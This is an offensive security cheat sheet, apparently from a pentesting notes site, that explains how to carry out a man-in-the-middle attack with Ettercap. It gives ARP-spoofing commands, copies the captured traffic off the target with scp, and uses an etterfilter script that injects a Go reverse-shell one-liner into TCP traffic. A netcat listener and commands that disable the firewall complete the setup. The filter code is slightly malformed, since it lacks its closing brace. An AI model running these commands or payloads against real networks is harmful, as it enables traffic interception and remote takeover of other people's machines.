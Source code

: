 ```yaml
---
title: Man in the Middle (MITM) Attack
desc:
tags: [ARP, Ettercap, Man in the Middle, MITM, Network, Reverse Shell, WiFi, Wireshark]
alts: [Reverse-Shell]
render_with_liquid: false
---
```


## Establish MITM

1. **Use ARP Spoofing**

    In the target machine,

    ```sh
    # -T: text only GUI
    # -M: man-in-the-middle attack
    # -w: write .pcap file
    ettercap -T -i eth1 -M arp -w /tmp/ettercap.pcap
    ettercap -T -i eth1 -M arp -w /tmp/ettercap.pcap
    ```

    In your local machine, transfer the ettercap's output file.

    ```sh
    scp victim@<target-ip>:/tmp/ettercap.pcap .

    # Investigate the file
    wireshark ettercap.pcap
    ```

<br />

## Gain Access to a Shell

1. **Reverse Shell Via ARP Spoofing**

    In the target machine, create "whoami.ecf" using Golang.

    ```golang
    // whoami.ecf
    if (ip.proto == TCP && tcp.src == 4444 && search(DATA.data, "whoami")) {
        log(DATA.data, "/root/ettercap.log");
        replace("whoami", "echo 'package main;import\"os/exec\";import\"net\";func main(){c,_:=net.Dial(\"tcp\",\"<target-eth1-ip>:6666\");cmd:=exec.Command(\"/bin/sh\");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go &");
        msg("###### ETTERFILTER: substituted 'whoami' with reverse shell.  ######\n");
    ```

    Compile the file using "etterfilter"

    ```sh
    # Compile the file using etterfilter
    etterfilter whoami.ecf -o whoami.ef
    ```

    Open listener on background

    ```sh
    nc -lvnp 6666 &
    ```

    Disable Firewall for incoming connection

    ```sh
    ufw allow in on eth1 from <target-ip> to <target-eth1-ip> port 6666 proto tcp
    # or
    ufw disable
    ```

    Execute "ettercap" command.

    ```sh
    # Run ettercap
    # -F: Filter
    ettercap -T -i eth1 -M arp -F whoami.ef
    ```

    After a while, you should see "Connection received on <target-ip>" in the outputs.  
    If so, quit "ettercap" with "q" and switch the opening listener to foreground with "fg".  
    Then you can interecat with the target shell.
